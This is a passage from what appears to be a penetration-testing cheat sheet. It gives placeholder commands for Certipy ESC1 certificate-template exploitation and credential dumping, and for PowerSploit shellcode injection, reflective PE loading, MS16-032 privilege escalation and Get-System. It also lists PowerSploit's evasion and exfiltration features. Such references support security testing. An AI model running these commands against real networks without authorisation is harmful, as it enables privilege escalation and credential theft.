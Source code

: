 - Perform ESC1 Exploitation: This command exploits a vulnerable certificate template to request a certificate.
  ```bash
  certipy esc1 -target <target-domain> -template <template-name> -username <username> -password <password>
  ```
- Extract Credentials from a Certificate: This command extracts credentials from the specified certificate and key files.
  ```bash
  certipy dump -cert <certificate-file> -key <key-file>
  ```

### PowerSploit
PowerSploit is a collection of PowerShell scripts designed for use by penetration testers and security professionals. It provides tools for exploiting, auditing, and post-exploitation tasks within Windows environments. PowerSploit leverages the power of PowerShell to perform a wide range of activities, from injecting code and escalating privileges to gathering information and maintaining persistence.

- **Purpose**: To provide a suite of PowerShell scripts for penetration testing and post-exploitation tasks.

#### Key Features

1. **Code Execution**: Provides various methods for executing arbitrary code.
2. **Privilege Escalation**: Scripts to escalate privileges on a compromised system.
3. **Persistence**: Tools to establish and maintain persistence within a target environment.
4. **Credential Harvesting**: Methods for extracting credentials from memory and other locations.
5. **Reconnaissance**: Scripts for gathering detailed information about the target environment.
6. **Antivirus Evasion**: Techniques for evading antivirus and endpoint protection mechanisms.
7. **Exfiltration**: Tools for extracting and exfiltrating data from the target.

#### Key Modules and Scripts

##### CodeExecution

- **Invoke-Shellcode**: Injects shellcode into the process.
  ```powershell
  Invoke-Shellcode -Shellcode @([Convert]::FromBase64String("<base64_shellcode>")) -Force
  ```
- **Invoke-ReflectivePEInjection**: Reflectively loads a PE (Portable Executable) into memory
  ```powershell
  Invoke-ReflectivePEInjection -PEPath "<path_to_pe_file>"
  ```

##### Privesc (Privilege Escalation)
- **Invoke-MS16-032**: Exploits the MS16-032 vulnerability to escalate privileges.
  ```powershell
  Invoke-MS16-032
  ```
- **Get-System**: Attempts to obtain SYSTEM privileges using various techniques.
  ```powershell
  Get-System
  ```
